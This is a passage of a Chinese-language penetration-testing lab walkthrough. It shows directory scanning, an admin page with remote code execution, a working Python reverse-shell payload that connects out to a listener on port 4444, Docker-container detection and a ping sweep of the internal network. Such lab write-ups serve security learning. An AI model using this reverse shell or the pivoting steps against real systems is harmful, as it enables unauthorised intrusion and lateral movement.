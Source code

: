    4. 那么就进行web渗透几乎必进行的相关文件扫描查看是否有后台。这里使用dirsearch工具。发现后台admin,并进行的访问，可以明显的看出这个一个开发测试的网页，这是极其不安全的。通过页面的信息明显可以判断出为一个远程代码执行的漏洞。

      <img src="http://image.cchl.fun/kali_image/image-20230515161642498.png" alt="image-20230515161642498" style="zoom:50%;" />

      <img src="http://image.cchl.fun/kali_image/image-20230515161740751.png" alt="image-20230515161740751" style="zoom: 50%;" />

## 漏洞入侵：第一次

   1. 打开本地监听，上传payload（这个payload只包含python只带的payload）,可以看到反弹成功.

       ```python
       import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.195.170",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
       ```

       <img src="http://image.cchl.fun/kali_image/image-20230515164157096.png" alt="image-20230515164157096" style="zoom: 50%;" />

## 信息的收集：第二次

   1. 进行相关数据，权限的收集。通过浏览常规的信息我们发现。我们反弹拿下的用户为app==,它就是root权限==。这是非常不应该的，所以我们可以猜为可能是存在5000端口的http服务不是部署在真实的ubuntu上，而是通过docker等虚拟化容器进行实现的部署。

       所以我们接下来的目标就是从这个隔离的docker中进入的真实的靶机换进中。

       <img src="http://image.cchl.fun/kali_image/image-20230515173129285.png" alt="image-20230515173129285" style="zoom:50%;" />

       哪我们如何查看我们进入的是否为docker容器？

       1. [cat /proc/1/cgroup](#docker_finder_1)                                            [==点击进行跳转解释==	](#docker_finder_1)					<a id='back1'></a> 

           来查看，如果出现相关的docker回显，就可以百分之百的确定为登陆的是docker用户

       2. ls /.dockerenv

           如果存在该文件，八九不离十为docker容器。

   2. 可通过ip a来进行查看ip：ip a 是ip address命令的缩写相当于ip addr。我们通过查看给命令，可以进一步验证我们是出于docker中的猜想（ip和我们nmap扫到的是不一致的，相当于我们出于在内网之中，所以我们需要进行内网的渗透，来进行获取内网中其它主机的信息和相关的shell。==这就是思路，注意，注意！！！！==）

       <img src="http://image.cchl.fun/kali_image/image-20230515180802639.png" alt="image-20230515180802639" style="zoom:50%;" />

   3. 如何发现相关主机呢？最简单的就是进行ping。由于我们kali中的工具是无法探测到连接靶机所在的内网，所以有两种方法：1，建立隧道            2，在靶机上编写本地的扫描脚本                                 [==点击相关说明==](#chen)                  <a id='back2'></a>

       ```bash
       for i in $(seq 1 10); do ping -c 2 172.17.0.$i; done
       ```

       执行后可以发现有两个内网主机

       <img src="http://image.cchl.fun/kali_image/image-20230515181533703.png" alt="image-20230515181533703" style="zoom:50%;" />
